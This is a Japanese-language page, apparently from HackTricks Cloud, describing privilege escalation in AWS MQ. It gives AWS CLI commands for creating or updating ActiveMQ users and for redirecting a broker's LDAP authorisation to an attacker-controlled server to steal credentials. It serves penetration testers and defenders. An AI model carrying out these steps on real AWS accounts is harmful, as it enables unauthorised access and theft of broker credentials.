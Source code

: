 # AWS - MQ 特権昇格

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>を通じて、ゼロからヒーローまでAWSハッキングを学びましょう</strong></a><strong>！</strong></summary>

HackTricks をサポートする他の方法:

- **HackTricks で企業を宣伝したい** または **HackTricks をPDFでダウンロードしたい** 場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) をチェックしてください！
- [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を入手する
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)コレクションを見つける
- **💬 [Discordグループ](https://discord.gg/hRep4RUj7f)** に参加するか、[telegramグループ](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)をフォローする
- **ハッキングテクニックを共有するために、PRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) **と** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **のGitHubリポジトリに提出してください**

</details>

## MQ

MQに関する詳細情報は次を確認してください:

{% content-ref url="../aws-services/aws-mq-enum.md" %}
[aws-mq-enum.md](../aws-services/aws-mq-enum.md)
{% endcontent-ref %}

### `mq:ListBrokers`, `mq:CreateUser`

これらの権限を持っていると、**ActimeMQブローカーに新しいユーザーを作成**できます（これはRabbitMQでは機能しません）:

{% code overflow="wrap" %}
```bash
aws mq list-brokers
aws mq create-user --broker-id <value> --console-access --password <value> --username <value>
```
**潜在的影響:** ActiveMQ を通じて機密情報にアクセス

### `mq:ListBrokers`, `mq:ListUsers`, `mq:UpdateUser`

これらの権限を持っていると、**ActimeMQ ブローカーに新しいユーザーを作成**できます（RabbitMQ では機能しません）:

{% code overflow="wrap" %}
```bash
aws mq list-brokers
aws mq list-users --broker-id <value>
aws mq update-user --broker-id <value> --console-access --password <value> --username <value>
```
{% endcode %}

**潜在的影響:** ActiveMQ を通じてアクセスされる機密情報

### `mq:ListBrokers`, `mq:UpdateBroker`

ブローカーが **ActiveMQ** で **LDAP** を使用して認可している場合、攻撃者が制御する LDAP サーバーの構成を変更することが可能です。これにより、攻撃者は **LDAP を介して送信されるすべての資格情報を盗むことができます**。
```bash
aws mq list-brokers
aws mq update-broker --broker-id <value> --ldap-server-metadata=...
```
もしActiveMQが使用している元の資格情報を見つけることができれば、MitMを実行し、資格情報を盗み、元のサーバーでそれらを使用してレスポンスを送信することができます（盗まれた資格情報を再利用するだけでこれを行うことができます）。

**潜在的な影響:** ActiveMQの資格情報を盗む
